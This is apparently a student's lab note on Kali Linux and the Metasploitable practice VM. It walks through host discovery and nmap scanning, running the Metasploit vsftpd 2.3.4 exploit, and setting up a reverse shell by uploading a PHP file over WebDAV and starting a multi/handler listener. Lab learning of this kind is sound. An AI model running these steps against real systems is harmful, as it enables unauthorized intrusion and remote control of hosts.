 
# 26/08/21 : Intro to Kali and Metasploitable

## Step 1

### On Kali:
Start msfconsole: 

```bash
msfconsole
```

### Discover hosts on network: $ sudo netdiscover

```bash
sudo netdiscover
```
### Scan a host: 

```bash
sudo nmap -p- -sV <host ip>
```

meaning: -p- means all ports from 0-65545?
         -sV is used for service scan

We see various services in host. eg: vsftpd v2.3.4
But how do we know its vulnerable? ans: use cmd 'search vsftpd' in msfconsole
We get numbering for each vulnerability.
To exploit one, run 'use <number>'. eg: use 0 as vsftpd vulnerability was
numbered 0 when we searched for it.
Now we are in a diff mode!
We can run 'info' to get detailed info about the vulnerability.

Now we need to set RHOSTS and RPORT.
Usually RPORT is set automatically.
To set RHOSTS: $ set RHOSTS <victim host ip>

run 'info' to check if RHOSTS is updated.

To run attack: $ exploit

# 2nd Attack : creating reverse shell using malicious file
---------------------------------------------------------
create new msfconsole session
create exploit.php file
connect to file directory: $ cadaver http://10.0.2.4/dav
upload file: $ put exploit.php

note: we are assuming server is running php

create listener to handle shell: $ use multi/handler
see options to set attr: $ show options (or options)
set LHOST: $ set LHOST <attacker ip>   eg: 10.0.2.15
